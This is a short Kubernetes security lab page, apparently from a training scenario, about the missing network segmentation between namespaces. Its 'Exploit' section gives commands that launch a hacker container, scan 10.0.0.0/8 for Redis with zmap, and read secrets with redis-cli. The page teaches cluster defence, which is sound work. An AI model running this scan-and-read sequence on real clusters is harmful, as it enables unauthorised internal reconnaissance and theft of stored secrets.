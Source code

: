 # K07:  Missing Network Segmentation Controls

## Context: Kubernetes namespaces bypass

Most people assume that resources in Kubernetes namespaces are secure and not able to access each other. Wrong! 

By default, Kubernetes comes with flat networking schema and if we need to have segmentation then we have to create them by creating boundaries like Network Security Policies. This vournability could lead to critical resources being exposed internally. 

## Exploit

In this scenario, you will access resource in other namespaces.

```shell
# kubectl run -it hacker-container --image=madhuakula/hacker-container -- sh
kubectl exec -it hacker-container -- sh

rm /etc/zmap/zmap.conf
zmap -p 6379 10.0.0.0/8 -o results.csv
cat results.csv

redis-cli -h <IP>
IP:6379>keys *
IP:6379>GET SECRETSTUFF
```
# Links

- [Kubernetes namespaces bypass](https://madhuakula.com/kubernetes-goat/docs/scenarios/scenario-11/kubernetes-namespaces-bypass-from-kubernetes-cluster-pod/welcome)